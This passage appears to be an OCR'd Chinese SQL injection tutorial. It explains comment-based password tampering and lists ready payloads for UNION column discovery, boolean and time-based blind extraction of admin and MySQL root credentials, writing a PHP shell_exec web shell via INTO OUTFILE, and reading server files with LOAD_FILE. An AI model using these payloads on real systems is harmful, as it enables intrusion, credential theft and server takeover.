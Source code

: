    　　在数据库中执行语句为：

   　　　　　　　　　　　　　　update user set password =“111111” where username='admin'-- '

   　　在数据库语句这种“-- ”表示注释，因此“-- ”后面的语句不会执行；最终攻击者改变的不是“admin'-- ”的密码，而是admin的密码，从而实现攻击。

   

   ​

**0x01 注入技巧&基本模式：**

首先，要对下面的一些函数和基本语句有一定的了解。

\1. 普通的union select:

select * from user where id='12' union select 1,2,3,4 from fabiao#+'.js

**Union query SQL injection(可联合查询注入)**

**利用前提**

***页面上有显示位**

 **union select**  

**Union操作符用于合成两个或多个select语句的结果集。**

**需要注意的是，union内部的select语句必须拥有相同的数量的列。列也必须拥有相似的数据类型。同时每条select语句中的列的顺序必须相同。**

**判断列数**

**Order by 10**

 **Order by 1**

**判断显示位**

**Union select 1,2,3**

\2. and select:

URL and (select count(username)from admin)>0   //猜解数据库列名，还可以猜解数据类型

URL and (select length(username) from admin limit 1)>0  //猜解数据库列名长度：修改后面的>0是猜解长度 

URL and (select top 1 ascii(substring(username 1,1)) from admin)>0 //猜解内容：猜解出的内容需对应ASCII表,ascii、substring为MySQL的函数，MsSQL略有不同

\3. 基于时间的盲注：

URL union select 1,benchmark(1000000,md5('test')),1 from user where userid=1 and ord(substring(username,1,1))=97

URL union select if(substring(Password,1,1)='a',benchmark(10000000,sha(1)),0) User,Password from mysql.user where user ='root'

\4. 写入到文件：

mysql> select '<?php echo shell_exec("ifconfig"); ?>' into outfile 'F:/wamp/www/shell.php';  //貌似在页面编码为gbk的时候，<>会被转义为实体编码，要考虑和文件包含漏洞一起利用

5. 读取文件：

URL union select 1,LOAD_FILE('E:/wamp/www/test.txt'),2,3,4,5,6--+    //注意mysql 读写文件用\的时候要转义，即E:\\wamp\\www\\test.txt
